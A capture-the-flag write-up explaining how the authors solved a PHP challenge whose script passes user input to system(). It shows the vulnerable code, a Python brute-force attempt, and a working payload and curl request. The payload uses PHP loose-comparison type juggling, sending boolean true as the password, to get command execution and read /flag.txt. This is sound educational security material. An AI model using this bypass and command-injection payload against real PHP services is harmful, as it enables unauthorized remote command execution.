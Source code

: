 # Never gonna tell a lie and type you
> todo

## First look
### Dockerfile
We see that the flag is stored into a text file at `/flag.txt`.
Then a php server is started on port 8080 via `php -S 0.0.0.0:8080` which serves the `index.php` file.

### index.php
A simple php script which expects a POST request with a fixed UserAgent. Otherwise it will return `we don't tolerate toxicity`.  
If we pass the correct username and password for the admin account we can execute any command we want on the server.

## Solution
By looking around we found that we have to bypass all the checks 
```php
$user_input = json_decode($_POST["data"]);
if ($_SERVER['HTTP_USER_AGENT'] != "friendlyHuman") {
    die("we don't tolerate toxicity");
}
if ($user_input->{'user'} === "admin🤠") {
    if ($user_input->{'password'} == securePassword($user_input->{'password'})) {
        echo " hail admin what can I get you " . system($user_input->{"command"});
    } else {
        die("Skill issue? Maybe you just try  again?");
    }
}
```
Passing the UserAgent and the user is easy by just setting the header and json data in the request.
The password is a bit more tricky. The password is checked against the `securePassword` function. The function is defined as follows:
```php
function securePassword($user_secret)
{
    if ($user_secret < 10000) {
        die("nope don't cheat");
    }
    $o = (int) (substr(hexdec(md5(strval($user_secret))), 0, 7) * 123981337);
    return $user_secret * $o;
}
```

The first check in `securePassword` compares the input to the integer `10000`. Thus passing a random ascii string to the function doesn't work due to `Uncaught TypeError: Unsupported operand types: string * int`.  
Realizing this we *thought* that we can limit our range of values to integers.

### Brute force
To get a better understanding about the `securePassword` function we reimplemented it in python and tried to bruteforce the password.
```py
from hashlib import md5

def pwd(s):
    return s * int(
        float(f"{int(md5(str(s).encode()).hexdigest(), 16):e}"[0:7]) * 123981337
    )

secret = 0
while True:
    p = pwd(secret)
    if secret == p:
        print("[SOLUTION]", secret)
    secret += 1
```
Which after _some_ (a lot of) time only yields `0` as the solution. 

### Passing 0 to securePassword
The only problem: the value passed to `securePassword` is checked to be greater than `10000` otherwise it fails. So we need to find a way to bypass this.

#### Passing 0 as integer
Ok so lets try passing `0` to the function anyways and see what happens: The function errors out with `nope don't cheat` as expected.

#### Passing 0 as string
So maybe we can bypass the check by passing `0` as a string. So we try to pass `"0"` to the function and see what happens: The integer `10000` is automatically casted to an string and the function errors out with `nope don't cheat`. So we need to find another a way to bypass this check.

### Passing Boolean values
After some more testing and thinking about it, we tried to pass other data types in hopes of bypassing the password checks.

Knowing that PHP always tries to cast the second value of the comparison when not using strict type comparison we can try to pass a boolean value to the function. But which one?  
Like many other languages PHP converts every NON-(NULL/ZERO/FALSE) value to `true`. Therefore if we pass `true` what actually gets evaluated is `true < 10000` which is cast to `true < true` and yields `false` thus `securePassword` returns some non-zero value.  
The same applies to the inner if statement: `$user_input->{'password'} == securePassword($user_input->{'password'})`. If we pass `true` as password the comparison is `true == securePassword(true)` which is cast to `true == true` and yields `true` thus the if statement is true and the command is executed.

### Getting the flag
Now that we know how to bypass the checks we can send a request to the server with the following payload:
```json
{
    "user": "admin🤠",
    "password": true,
    "command": "cat /flag.txt"
}
```
We had some issues posting the data with a pure JSON body until we realized that the server expects the data to be urlencoded.
```sh
curl 'http://<URL>.ctf.kitctf.de/' \
-A 'friendlyHuman' \
-H 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'data={"user": "admin🤠", "password": true, "command": "cat /flag.txt"}'
```

The command is executed and we receive the flag in the response: `GPNCTF{fake_flag}`
